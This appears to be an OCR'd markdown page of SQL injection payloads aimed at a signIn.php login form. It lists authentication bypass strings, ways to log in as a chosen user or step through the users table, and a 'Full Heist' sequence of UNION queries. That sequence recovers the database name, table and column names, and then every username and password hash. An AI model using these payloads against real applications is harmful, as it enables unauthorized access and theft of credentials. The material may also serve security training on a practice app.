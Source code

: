 - Auth Bypass on signIn.php

  1. username => 'or '1'='1' -- '
  2. You can use this attack to get the first user, if you do not any username prior to your attempt.

- Auth Bypass with any field that may be publicly available

  1. username => 'or email='smb@gmail.com' -- '

- Auth a specific user by a known unique field
  username => 'or username='smb' -- '
  or
  username => 'or email='smb@gmail.com' -- '

- Auth Bypass with any skipping through

  1. username => 'or '1'='1' LIMIT 1 OFFSET 2 -- '
  2. OFFSET is the key value here. This way, you can go through the whole table.

- Get first table name, using DB name obtained above

  1. username => fsdfs' UNION SELECT table_name, 1 FROM INFORMATION_SCHEMA.tables WHERE table_schema='test' -- '

## Full Heist

- Get number of fields returned

  1. username => fsdfs' UNION SELECT 1, 2, 3 -- '
  2. The fsdfs is just random text to make the username query fail, since fsdfs is most likely not a real username in the system
  3. Progressively increase the number of comma-separated values in the SELECT, until if doesn't fail

- Get DB name and DB user account

  1. username => fsdfs' UNION SELECT DATABASE(), user() -- '

- Get all table names, using DB name obtained above

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(table_name), 1 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='test' -- '
     Note: test is the DB name obtained above

- Get all column names

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(column_name), 1 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' AND TABLE_SCHEMA='test' -- '
     Note: users is the table name obtained above

- Get all usernames and corresponding password hashes

  1. username => fsdfs' UNION SELECT GROUP_CONCAT(username), GROUP_CONCAT(password_hash) FROM users -- '
